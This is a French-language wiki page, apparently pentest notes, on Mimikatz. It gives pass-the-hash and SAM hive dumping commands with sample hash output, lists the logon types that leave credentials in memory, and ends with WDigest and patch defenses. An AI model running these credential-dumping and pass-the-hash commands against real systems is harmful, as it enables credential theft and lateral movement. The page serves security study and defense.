 ```yaml
---
title: Mimikatz
permalink: /Mimikatz/
---
```


# Mimikatz

## Commandes utiles

Repris de https://github.com/gentilkiwi/mimikatz/wiki

#### Pass the hash et RDP
``` bash
privilege::debug
sekurlsa::pth /user:heidegger /domain:SHINRA-INC /ntlm:XXXXXXXXXXXXXXXX /run:"mstsc.exe /restrictedadmin"
```

#### Dump offline de SAM
Récupérer SAM et system:
```bash
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```
Dumper les hashs avec mimikatz:
```bash
mimikatz # lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
Domain : VM-W7-ULT-X
SysKey : 74c159e4408119a0ba39a7872e9d9a56

SAMKey : e44dd440fd77ebfe800edf60c11d4abd

RID  : 000001f4 (500)
User : Administrateur
LM   :
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Invité
LM   :
NTLM :

RID  : 000003e8 (1000)
User : Gentil Kiwi
LM   :
NTLM : cc36cf7a8514893efccd332446158b1a
```

## Secrets d'authentification en mémoire

Les "logins" suivants provoquent le stockage d'information d'authenficaction en mémoire (https://technet.microsoft.com/en-us/windows-server-docs/security/securing-privileged-access/securing-privileged-access-reference-material#a-nameatltbmaadministrative-tools-and-logon-types):

-   Log on at console
-   Remote Desktop
-   RunAs
-   Powershell WiRM with CredSSP
-   PsExec with explicit creds
-   Scheduled Task
-   Tool running as a service
-   IIS "Basic Authentication"

Trucs & astuces:
- Sous les vieilles versions de Windows il est possible d'utiliser mimilove.
- Il est possible de dumper lsass et de l'analyser offline avec mimikatz.

## Défenses

Il existe plusieurs mécanismes pour se défendre contre les attaques utilisant Mimikatz (Plus d'informations sur ADSecurity: <https://adsecurity.org/?p=559>)

### Désactiver wdigest

A partir de Windows 8.1 et Windows Server 2012 les mots de passes ne sont plus stockés en mémoire par défaut. De plus il est possible de faire en sorte que les mots de passe n'apparaissent pas en mémoire dans les anciennes versions de Windows. Il faut pour cela:

-   Appliquer le patch KB2871997
-   Modifier la clé de registre suivante pour qu'elle ait 0:

``` text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)
```


Références
----------

-   [Unofficial Guide to Mimikatz & Command Reference - ADSecurity](https://adsecurity.org/?page_id=1821)
-   [Mimikatz Overview, Defenses and Detection](https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780)
-   [Utilisation avancée de Mimikatz](http://connect.ed-diamond.com/MISC/MISC-066/Utilisation-avancee-de-Mimikatz)
-   [Administrative Tools and Logon Types](https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material#ATLT_BM): Information sur la réutilisation des mots de passe

